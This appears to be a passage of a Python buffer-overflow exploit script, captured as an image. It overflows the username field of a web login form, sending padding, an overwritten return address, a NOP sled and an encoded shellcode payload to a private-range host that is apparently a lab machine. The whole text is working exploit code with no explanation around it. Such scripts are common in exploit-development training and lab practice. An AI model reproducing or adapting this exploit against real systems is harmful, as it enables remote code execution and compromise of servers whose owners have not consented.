 ```
    shellcode = "\xd9\xe5\xba\xd7\xdb\xcc\x1c\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x52\x83\xc5\x04\x31\x55\x13\x03\x82\xc8\x2e\xe9\xd0\x07\x2c\x12\x28\xd8\x51\x9a\xcd\xe9\x51\xf8\x86\x5a\x62\x8a\xca\x56\x09\xde\xfe\xed\x7f\xf7\xf1\x46\x35\x21\x3c\x56\x66\x11\x5f\xd4\x75\x46\xbf\xe5\xb5\x9b\xbe\x22\xab\x56\x92\xfb\xa7\xc5\x02\x8f\xf2\xd5\xa9\xc3\x13\x5e\x4e\x93\x12\x4f\xc1\xaf\x4c\x4f\xe0\x7c\xe5\xc6\xfa\x61\xc0\x91\x71\x51\xbe\x23\x53\xab\x3f\x8f\x9a\x03\xb2\xd1\xdb\xa4\x2d\xa4\x15\xd7\xd0\xbf\xe2\xa5\x0e\x35\xf0\x0e\xc4\xed\xdc\xaf\x09\x6b\x97\xbc\xe6\xff\xff\xa0\xf9\x2c\x74\xdc\x72\xd3\x5a\x54\xc0\xf0\x7e\x3c\x92\x99\x27\x98\x75\xa5\x37\x43\x29\x03\x3c\x6e\x3e\x3e\x1f\xe7\xf3\x73\x9f\xf7\x9b\x04\xec\xc5\x04\xbf\x7a\x66\xcc\x19\x7d\x89\xe7\xde\x11\x74\x08\x1f\x38\xb3\x5c\x4f\x52\x12\xdd\x04\xa2\x9b\x08\x8a\xf2\x33\xe3\x6b\xa2\xf3\x53\x04\xa8\xfb\x8c\x34\xd3\xd1\xa4\xdf\x2e\xb2\xc0\xcc\x07\x46\xbd\xf0\x67\x47\x86\x7c\x81\x2d\xe8\x28\x1a\xda\x91\x70\xd0\x7b\x5d\xaf\x9d\xbc\xd5\x5c\x62\x72\x1e\x28\x70\xe3\xee\x67\x2a\xa2\xf1\x5d\x42\x28\x63\x3a\x92\x27\x98\x95\xc5\x60\x6e\xec\x83\x9c\xc9\x46\xb1\x5c\x8f\xa1\x71\xbb\x6c\x2f\x78\x4e\xc8\x0b\x6a\x96\xd1\x17\xde\x46\x84\xc1\x88\x20\x7e\xa0\x62\xfb\x2d\x6a\xe2\x7a\x1e\xad\x74\x83\x4b\x5b\x98\x32\x22\x1a\xa7\xfb\xa2\xaa\xd0\xe1\x52\x54\x0b\xa2\x63\x1f\x11\x83\xeb\xc6\xc0\x91\x71\xf9\x3f\xd5\x8f\x7a\xb5\xa6\x6b\x62\xbc\xa3\x30\x24\x2d\xde\x29\xc1\x51\x4d\x49\xc0"    
    pre = 'A'*780
    eip = "\x83\x0c\x09\x10"
    offset = 'C'*4
    nop = "\x90"*10
    inputBuffer = pre + eip + offset + nop + shellcode
    buffer = ""
    content = "username="+inputBuffer+"&password=A"
    buffer += "POST /login HTTP/1.1\r\n"
    buffer += "Host: 10.211.55.8\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Origin: http://10.211.55.8\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Referer: http://10.211.55.8/login\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "Content-Length: " + str(len(content)) + "\r\n"
    buffer += "\r\n"
    buffer += content

    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.211.55.8",80))
    s.send(buffer)                                                                                  
    s.close()                                                                                       
    print("Done!")                                                                                  
except Exception as e:                                                                              
    print(e)                                                                                        
    print("something wrong") 
```
